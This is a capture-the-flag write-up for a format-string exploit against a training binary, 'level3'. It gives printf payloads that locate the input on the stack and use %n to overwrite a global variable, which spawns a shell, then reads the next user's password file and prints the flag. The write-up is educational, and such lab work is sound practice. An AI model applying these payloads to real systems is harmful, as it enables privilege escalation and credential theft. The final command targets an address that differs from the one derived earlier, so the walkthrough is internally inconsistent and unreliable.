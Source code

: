 # level3

We find an executable `level3`. We examine it in Cutter. We determine the following :

- A `main` calls a `v` function
- `v` calls `fgets`, which is safe
- It then calls `printf` with our input, which is **not** safe
- The function assigns the value of variable `m` to `eax`
- It then compares `eax` to `64`
- If it's equal, it starts a `system("/bin/sh");` and we win

We have to exploit the `printf` function, in order to set the value of variable `m` to `64`.

## The exploit

When you ask `printf` for values without giving it any, it will just look for whatever's next in the stack. For example, `printf("%p\n")` will print the address of the next thing on the stack.

Even better, our input is also on the stack - which will be important to control printf's behaviour.

We want to have a look at the stack. We ask printf for a series of pointers, starting with `deadbeef` in hex, to find our buffer's place in the stack. We run :

```
python -c 'print("\xef\xbe\xad\xde %p %p %p %p")' | ./level3
```

We get :

```
ﾭ� 0x200 0xb7fd1ac0 0xb7ff37d0 0xdeadbeef
```

We see `0xdeadbeef`, the beginning of our input, is the fourth address.

Now, we want to do a couple things. First, we want to access the fourth pointer directly. We use the following syntax :

```
python -c 'print("\xef\xbe\xad\xde %4$p")' | ./level3
```

Next, we want to change our flag to something useful. `%n`, for example ; `%n` reads a pointer, and writes in it the number of bytes printed by printf so far. We change to :

```
python -c 'print("\xef\xbe\xad\xde" + "%4$n")' | ./level3
```

This will write the number of bytes (4, in this example) in the address `0xdeadbeef`. We could change this to an actual address. The address, of `m`, for example.

In gdb, we run `info variables` and find `m` is at `0x08049810`. We change our command again :

```
python -c 'print("\x10\x98\x04\x08" + "%4$n")' | ./level3
```

This will set `m` to `4`. Finally, we need to write more bytes, so the `%n` sets the value to `64`. We add 60 `A`'s :

```
python -c 'print("\x10\x98\x04\x08" + "A" * 60 + "%4$n")' | ./level3
```

We're ready to solve. We run the two-time `cat` block, as usual :

```
( python -c 'print("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")' ; cat ) | ./level3
```

## The flag

It works ! In our interactive shell, we run :

```
cat /home/user/level4/.pass
```

... and get the flag for `level3` :

```
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```